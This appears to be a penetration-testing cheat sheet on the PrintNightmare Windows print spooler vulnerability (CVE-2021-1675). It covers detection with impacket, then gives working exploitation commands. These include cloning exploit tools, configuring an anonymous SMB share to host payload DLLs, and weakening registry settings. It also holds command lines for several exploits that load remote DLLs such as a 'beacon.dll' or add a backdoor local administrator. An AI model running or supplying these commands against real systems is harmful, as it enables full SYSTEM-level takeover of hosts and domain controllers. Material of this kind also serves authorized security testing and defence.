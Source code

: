 # PrintNightmare

[CVE-2021-1675](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675) is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."

The print spooler service is vulnerable to remote code execution that leverages a compromised user account, either domain-joined or local account, to take full control of a system as the NT SYSTEM user. Proof-of-concept \(PoC\) code has been made publicly available for this new vulnerability leaving every Windows system at extreme risk. An adversary exploiting this vulnerability can leverage a domain-joined account, regardless of permissions, to take full control as NT SYSTEM on any domain-joined Windows system. This includes servers and Domain Controllers. An adversary exploiting this vulnerability can also leverage a local account to take full control as NT SYSTEM on any Windows system that the local account is valid.

## Requirements

* **Spooler Service** enabled \(Mandatory\)
* Server with patches &lt; June 21
* DC with `Pre Windows 2000 Compatibility` group
* Server with registry key `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = \(DWORD\) 1
* Server with registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = \(DWORD\) 0

## Detection

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```text
# impacket
python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol



# it was all a dream
git clone https://github.com/byt3bl33d3r/ItWasAllADream
cd ItWasAllADream && poetry install && poetry shell
itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
```

## Tools

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/outflanknl/PrintNightmare" %}

## Exploitation

#### here we use the [python exploit](https://github.com/cube0x0/CVE-2021-1675) because it can do the job remotely.

```text
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

```text
CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share
```

### SMB configuration

#### Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf` to allow anonymous access

```text
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

#### From windows it's also possible

```text
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

#### example:

```text
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### other methods

[SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)

```
# require a modified Impacket: https://github.com/cube0x0/impacket
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
## LPE
SharpPrintNightmare.exe C:\addCube.dll
## RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
## RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
```

[Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)

    ## LPE only (PS1 + DLL)
    Import-Module .\cve-2021-1675.ps1
    Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
    Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
    Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"

[Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)

```
## LPE
misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
## RCE
misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
```

[PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)

```
PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
```





